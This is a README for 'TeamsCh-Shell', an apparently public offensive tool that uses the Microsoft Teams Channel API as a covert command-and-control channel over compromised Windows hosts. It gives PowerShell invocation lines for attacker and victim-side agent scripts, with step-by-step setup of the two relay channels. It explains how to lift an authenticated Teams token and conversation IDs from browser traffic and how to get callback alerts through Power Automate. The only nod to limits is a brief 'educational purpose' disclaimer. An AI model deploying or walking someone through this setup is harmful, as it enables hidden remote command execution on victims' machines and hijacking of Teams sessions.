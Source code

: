 # TeamsCh-Shell

## Overview
This project aims to create a lightweight tool that utilizes the Microsoft Teams Channel API to establish command and control over compromised systems with as few prerequisites as possible. The command and control communication solely abuses the Microsoft Teams Channel API, and no Teams desktop app installation is required.

## Workflow

![426539136-3773069b-f6eb-4ad1-b089-97b684ade053](https://github.com/user-attachments/assets/a9914060-c6fb-442b-a4ec-6bafd3b53f48)


## Why TeamsCh-Shell?
- Lightweight PowerShell agent with no dependencies
- Leverage MS Teams Channel API only
- Embed commands directly into messages rather than in images file

## Usage
### Agent
```
. ./TeamsCh-Shell-Agent.ps1
TeamsCh-Shell-Agent -Inputconversationid "$Inputconversationid" -Outputconversationid "$Outputconversationid" -token "$token"
```
```
- token                 Authenticated browser token running on Microsoft Teams
- Inputconversationid   Teams Channel conversation ID for receive command
- Outputconversationid  Teams channel conversation ID for the output of the executed command result
- time                  The time interval to check for updated commands in the Teams Channel

Notes: Token expiration time is 24 hours by default
```
### Attacker
```
. ./TeamsCh-Shell-Attacker.ps1
TeamsCh-Shell-Attacker -Inputconversationid "$Inputconversationid" -Outputconversationid "$Outputconversationid" -token "$token"
```
```
- token                 Authenticated browser token running on Microsoft Teams
- Inputconversationid   Teams Channel conversation ID for receive command output
- Outputconversationid  Teams channel conversation ID for the output of the executed command
- time                  The time interval to check for executed command result in the Teams Channel

Notes: Token expiration time is 24 hours by default
```
## Steps to reproduce

1. Create Two Teams Channels:
- One channel is designated for the attacker to transfer system commands that will be received and executed on the victim's host.
> [!NOTE]
> Attacker's Teams token has Read and Write permissions on the channel, while Victim's Teams token has at least Read permission.
- Second channel is used to receive the results of the executed commands from the victim's host, allowing attacker to read the commands results from this channel.
> [!NOTE]  
> Victim's Teams token has Read and Write permissions on the channel, while Attacker's Teams token has at least Read permission.

![2](https://github.com/user-attachments/assets/8b182573-9c9c-4a4b-a00c-326b57ac3c13)
![3](https://github.com/user-attachments/assets/71067e28-06f5-4e06-99a5-a46d7aa8a8f7)


2. Extract token and conversationid of Teams Channels:
- Access the Inspect tool and navigate to the Network tab.
- Send a message in the Teams channel and apply a filter for the keyword 'messages' to filter relevant network traffic.
- Extract the Authenticated Teams token and conversationID from the request.
  
![4](https://github.com/user-attachments/assets/d403b8f8-6b1e-4d63-9590-47b3a0b215e3)


3. Execute TeamsCh-Shell-Attacker.ps1 script on the attacker host and input command:
```
. ./TeamsCh-Shell-Attacker.ps1
TeamsCh-Shell-Attacker.ps1 -token "eyJ0eXAiOiJ***PykNgVhCEjA" -Outputconversationid "19:952***9e@t***2" -Inputconversationid "19:c92***8a@t***2"
```

![image](https://github.com/user-attachments/assets/54550c49-2bde-4a8a-a4fd-b1b208ba515a)


4. Execute TeamsCh-Shell-Agent.ps1 script on the victim host:
```
. ./TeamsCh-Shell-Agent.ps1
TeamsCh-Shell-Agent.ps1 -token "eyJ0eXAiO***Cu9Jp8l3kF70Ug" -Inputconversationid "19:952***9e@t***2" -Outputconversationid "19:c92***8a@t***2"
```

![image](https://github.com/user-attachments/assets/be914ba3-d283-4549-be06-074522170a7e)


5. Shell callback Notification
- Power Automate can set up a condition to check for incoming messages to the channel. If incoming messages are sent to the channel, the condition is triggered, and a notification email will be sent to the inputted email address.

![6](https://github.com/user-attachments/assets/1d23c839-b637-4ade-aed1-baaeca0e4acf)

## Disclaim
san6051 is developed with the intension of using this tool only for educational purpose.
  
## Credits / Reference

- [convoC2](https://github.com/cxnturi0n/convoC2) by @cxnturi0n
- [Microsoft-Teams-GIFShell](https://github.com/bobbyrsec/Microsoft-Teams-GIFShell) by @bobbyrsec
- [gifshell-covert-attack-chain-and-c2-utilizing-microsoft-teams-gifs](https://medium.com/@bobbyrsec/gifshell-covert-attack-chain-and-c2-utilizing-microsoft-teams-gifs-1618c4e64ed7) by @bobbyrsec

